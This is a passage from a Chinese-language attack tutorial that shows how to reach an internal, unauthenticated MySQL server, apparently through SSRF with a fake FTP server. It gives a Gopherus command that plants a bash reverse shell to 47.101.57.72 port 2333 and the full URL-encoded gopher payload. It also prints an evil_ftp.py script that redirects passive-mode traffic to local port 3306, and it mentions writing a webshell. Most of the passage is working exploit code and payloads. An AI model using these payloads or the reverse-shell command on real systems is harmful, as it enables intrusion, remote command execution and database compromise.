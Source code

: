 
如下图所示，成功写入 Webshell：

###  攻击内网 MySQL

假设内网中存在 MySQL 并且可以未授权访问的话，我们也可以直接攻击其 MySQL，具体操作有查询 MySQL 中的数据、写入 Webshell、UDF
提权执行系统命令等。下面我们以 MySQL 5.7 的 `system` 提权执行系统命令为例进行演示。

首先使用 [Gopherus](https://github.com/tarunkant/Gopherus) 生成 Payload：

    
    
    python gopherus.py --exploit mysql
    root    # 这里输入MySQL的用户名
    system bash -c "bash -i >& /dev/tcp/47.101.57.72/2333 0>&1";  # 这里输入的是需要执行的MySQL语句或命令, 这里我们反弹shell
    

得到的 Payload 只选取 `_` 后面的：

    
    
    %a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%3d%00%00%00%03%73%79%73%74%65%6d%20%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%34%37%2e%31%30%31%2e%35%37%2e%37%32%2f%32%33%33%33%20%30%3e%26%31%22%3b%01%00%00%00%01
    

然后还是在攻击机上运行 evil_ftp.py 启动一个伪 FTP 服务：

    
    
    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.bind(('0.0.0.0', 23))
    s.listen(1)
    conn, addr = s.accept()
    conn.send(b'220 welcome\n')
    #Service ready for new user.
    #Client send anonymous username
    #USER anonymous
    conn.send(b'331 Please specify the password.\n')
    #User name okay, need password.
    #Client send anonymous password.
    #PASS anonymous
    conn.send(b'230 Login successful.\n')
    #User logged in, proceed. Logged out if appropriate.
    #TYPE I
    conn.send(b'200 Switching to Binary mode.\n')
    #Size /
    conn.send(b'550 Could not get the file size.\n')
    #EPSV (1)
    conn.send(b'150 ok\n')
    #PASV
    conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,3306)\n') #STOR / (2)
    conn.send(b'150 Permission denied.\n')
    #QUIT
    conn.send(b'221 Goodbye.\n')
    conn.close()
    